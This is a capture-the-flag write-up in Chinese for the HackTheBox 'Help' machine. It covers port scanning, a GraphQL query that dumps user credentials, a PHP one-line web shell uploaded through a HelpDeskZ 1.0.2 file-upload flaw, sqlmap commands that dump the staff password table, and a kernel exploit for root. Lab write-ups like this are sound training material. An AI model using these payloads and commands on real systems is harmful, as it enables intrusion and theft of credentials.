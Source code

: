 ```yaml
---
title: HackTheBox-Help
date: 2025-3-17 20:00:00
tags: 红队
categories: 红队打靶-Linux
---
```




## nmap 

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e5:bb:4d:9c:de:af:6b:bf:ba:8c:22:7a:d8:d7:43:28 (RSA)
|   256 d5:b0:10:50:74:86:a3:9f:c5:53:6f:3b:4a:24:61:19 (ECDSA)
|_  256 e2:1b:88:d3:76:21:d4:1e:38:15:4a:81:11:b7:99:07 (ED25519)
80/tcp   open  http    Apache httpd 2.4.18
|_http-title: Did not follow redirect to http://help.htb/
|_http-server-header: Apache/2.4.18 (Ubuntu)
3000/tcp open  http    Node.js Express framework
|_http-title: Site doesn't have a title (application/json; charset=utf-8).

```

## dirsearch

### 80端口

![image-20250325215039367](./Help/image-20250325215039367.png)

扫目录先扫到http://10.10.10.121/support，继续扫扫到下面这些目录，

![image-20250325215054785](./Help/image-20250325215054785.png)

在readme中找到版本号为1.0.2

![image-20250325215213772](./Help/image-20250325215213772.png)

该版本存在[SQL注入和任意文件上传](./https://www.exploit-db.com/exploits/41200)

sql注入需要登录

## 3000端口

查看响应头服务器正在运行express框架

搜到express js query language可以查到graphql

![image-20250325220155752](./Help/image-20250325220155752.png)

![image-20250325220215164](./Help/image-20250325220215164.png)

graphql查询语法[Pwning WordPress GraphQL |渗透测试合作伙伴 --- Pwning WordPress GraphQL | Pen Test Partners](./https://www.pentestpartners.com/security-blog/pwning-wordpress-graphql/)

查询有哪些schema

```
http://help.htb:3000/graphql?query={%20__schema{queryType{name,fields{name,description}}}}
```

![image-20250325222021292](./Help/image-20250325222021292.png)

然后查询username和password

```
http://10.10.10.121:3000/graphql?query={user{username,password}}
```

![image-20250325223025651](./Help/image-20250325223025651.png)

```
username	"helpme@helpme.com"
password	"5d3c93182bb20f07b994a7f617e99cff"
```

```
helpme@helpme.com：godhelpmeplz
```

然后使用该账号密码即可登录

## 突破点

上面查询到helpdeskz 1.0.2存在文件上传漏洞和sql注入漏洞，分别都尝试一下

### 文件上传漏洞

漏洞原理，上传之后的文件名命名时会以当前时间戳的MD5值增加扩展之后进行命名，所以存在爆破的可能性[爆破脚本](./https://github.com/b4rt00/helpdeskz-1.0.2-file_upload)

```
$filename = md5($_FILES['attachment']['name'].time()).".".$ext;
```

上传一句话木马

```
<?php @system($__GET[cmd]);?>
```

![image-20250325230535303](./Help/image-20250325230535303.png)

![image-20250325230552221](./Help/image-20250325230552221.png)

然后反弹shell

![image-20250325231940266](./Help/image-20250325231940266.png)

![image-20250325231953338](./Help/image-20250325231953338.png)

### sql注入

[HelpDeskZ < 1.0.2 - (Authenticated) SQL Injection / Unauthorized File Download - PHP webapps Exploit](./https://www.exploit-db.com/exploits/41200)

![image-20250325232802730](./Help/image-20250325232802730.png)

注入点就在上传文件之后，文件下载的url中，注入参数为param[]

使用sqlmap爆出用户名和密码

```
sqlmap -r sql1 -p param[] --batch --dbs
```

![image-20250325233139257](./Help/image-20250325233139257.png)

```
sqlmap -r sql1 -p param[] --batch -D support --tables --threads 10
```

![image-20250325234108983](./Help/image-20250325234108983.png)

```
sqlmap -r sql1 -p param[] --batch -D support -T users --columns --threads 10
```

![image-20250325234205817](./Help/image-20250325234205817.png)

```
sqlmap -r sql1 -p param[] --batch -D support -T staff -C username,password --threads 10 --dump
```

![image-20250325235115941](./Help/image-20250325235115941.png)

sql注入得到admin密码

```
admin：Welcome1
```

ssh连接尝试多个用户名，最后help用户成功登录，

该版本存在内核漏洞，内核提权即可

## 提权

该版本存在内核提取漏洞

![image-20250325233659741](./Help/image-20250325233659741.png)

![image-20250325233654056](./Help/image-20250325233654056.png)

本地下载之后上传到靶机，靶机编译之后运行即可

![image-20250325234013436](./Help/image-20250325234013436.png)